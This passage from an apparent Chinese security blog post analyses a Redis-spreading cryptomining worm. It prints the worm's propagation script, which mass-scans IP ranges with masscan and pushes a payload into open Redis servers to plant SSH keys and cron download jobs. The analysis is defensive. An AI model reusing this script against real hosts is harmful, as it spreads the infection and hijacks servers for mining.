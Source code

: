 > masscan --max-rate 10000 -p6379,6380 192.168.0.0/16 172.16.0.0/16 116.62.0.0/16 116.232.0.0/16 116.128.0.0/16 116.163.0.0/16 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .ranges
> 
> sleep 1
> 
> while read -r h p; do
> 
> cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
> 
> done < .ranges
> 
> sleep 1
> 
> ip a | grep -oE '(\[0-9\]{1,3}.?){4}/\[0-9\]{2}' 2>/dev/null | sed 's/\\/\\(\[0-9\]\\{2\\}\\)/\\/16/g' > .inet
> 
> sleep 1
> 
> masscan --max-rate 10000 -p6379,6380 -iL .inet | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .lan
> 
> sleep 1
> 
> while read -r h p; do
> 
> cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
> 
> done < .lan
> 
> sleep 60
> 
> rm -rf .dat .shard .ranges .lan 2>/dev/null

如果说前两个脚本只是在服务器上下载执行了二进制文件，那这个脚本才真正显示病毒的威力。下面就来分析这个脚本。

> 一开始的修改系统环境没什么好说的，接下来的写文件操作有点眼熟，如果用过 redis 的人，应该能猜到，这里是对 redis 进行配置。写这个配置，自然也就是利用了 redis 把缓存内容写入本地文件的漏洞，结果就是用本地的私钥去登陆被写入公钥的服务器了，无需密码就可以登陆，也就是我们文章最开始的 / root/.ssh/authorized\_keys。登录之后就开始定期执行计划任务，下载脚本。好了，配置文件准备好了，就开始利用 masscan 进行全网扫描 redis 服务器，寻找肉鸡，注意看这 6379 就是 redis 服务器的默认端口，如果你的 redis 的监听端口是公网 IP 或是 0.0.0.0，并且没有密码保护，不好意思，你就中招了。

**0x03 总结**
===========

通过依次分析这 3 个脚本，就能看出这个病毒的可怕之处，先是通过写入 ssh public key 拿到登录权限，然后下载执行远程二进制文件，最后再通过 redis 漏洞复制，迅速在全网传播，以指数级速度增长。那么问题是，这台服务器是怎么中招的呢？看了下 redis.conf，bind 的地址是 127.0.0.1，没啥问题。由此可以推断，应该是 root 帐号被暴力破解了，为了验证我的想法，我 lastb 看了一下，果然有大量的记录：

![](https://mmbiz.qpic.cn/mmbiz_png/1UG7KPNHN8EhllkibxqVTHiakzUZFFYicic1BnVa0F2eYbrOqOAauJg0zOQzFryh1gxEjC5OQicWzMeGTKfBaXiciaTVA/640?wx_fmt=png)  

还剩最后一个问题，这个 gpg-agentd 程序到底是干什么的呢？我当时的第一个反应就是矿机，因为现在数字货币太火了，加大了分布式矿机的需求，也就催生了这条灰色产业链。于是，顺手把这个 gpg-agentd 拖到 ida 中，用 string 搜索 bitcoin, eth, mine 等相关单词，最终发现了这个：

![](https://mmbiz.qpic.cn/mmbiz_png/1UG7KPNHN8EhllkibxqVTHiakzUZFFYicic1LyA74MekuEOE0aicMFhVVSficr0jHamrJ1cyMS6QXibnQPYUnr4cZNCfA/640?wx_fmt=png)
